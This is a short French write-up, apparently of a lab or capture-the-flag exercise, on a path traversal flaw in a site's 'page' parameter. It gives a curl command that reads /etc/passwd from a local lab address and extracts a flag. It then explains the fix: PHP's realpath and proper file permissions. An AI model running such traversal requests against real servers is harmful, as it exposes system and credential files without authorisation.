 # Exploit 09 - relative path

Sur le site web, le routage est géré par le paramètre de requête _page_. Nous pouvons essayer d'insérer des chemins
relatifs vers les répertoires parents pour trouver des fichiers de configuration sur le serveur.

```bash
curl -s -X GET "http://192.168.56.101/index.php?page=../../../../../../../../../etc/passwd" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```

Pour contrer cette attaque, il faut vérifier que le chemin demandé ne contient pas de séquence `../` et qu'il est bien
situé dans le répertoire de contenu. Pour cela, on peut utiliser la fonction `realpath` de PHP, qui résoudra les
liens symboliques et les séquences `../` pour nous. 

Aussi une bonne gestion des permissions sur les fichiers et répertoires est nécessaire pour éviter que l'attaquant
puisse lire des fichiers sensibles.